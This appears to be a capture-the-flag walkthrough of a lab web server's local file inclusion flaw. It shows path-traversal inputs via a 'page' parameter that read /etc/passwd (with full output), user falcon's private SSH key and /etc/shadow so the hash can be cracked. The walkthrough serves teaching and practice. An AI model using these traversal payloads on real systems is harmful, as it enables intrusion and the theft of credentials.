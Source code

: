 ### PORT 80

On visting web page

<img src="https://imgur.com/WgDdTn0.png"/>

Try to navigate to different pages,and we see a parameter named `page`

<img src="https://imgur.com/r1zlNUk.png"/>

The basic traversal for `/etc/passwd` in LFI is `../../../../etc/passwd` but in this sceanrio `../../../etc/passwd` is where LFI exists

<img src="https://imgur.com/KK13Xof.png"/>


```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash sshd:x:110:65534::/run/sshd:/usr/sbin/nologin 
```
Now room tells us to read user `falcon`'s private ssh key

Replacing `/etc/passwd` with `/home/falcon/.ssh/id_rsa` the path becomes `../../../home/falcon/.ssh/id_rsa` and we can get the key

<img src="https://imgur.com/qQcjHel.png"/>

It is better to look it with the source code

<img src="https://imgur.com/SQQzQVs.png"/>

Copy it in a new file and save it as `id_rsa` by changning it's permissions `chmod 600`

<img src="https://imgur.com/b3NGCau.png"/>

Logging in with SSH keeps failing because it needs his password so lets grab `/etc/shadow` to see his hash and crack it by going to `../../../etc/shadow` 

<img src="https://imgur.com/YrzCpg1.png"/>
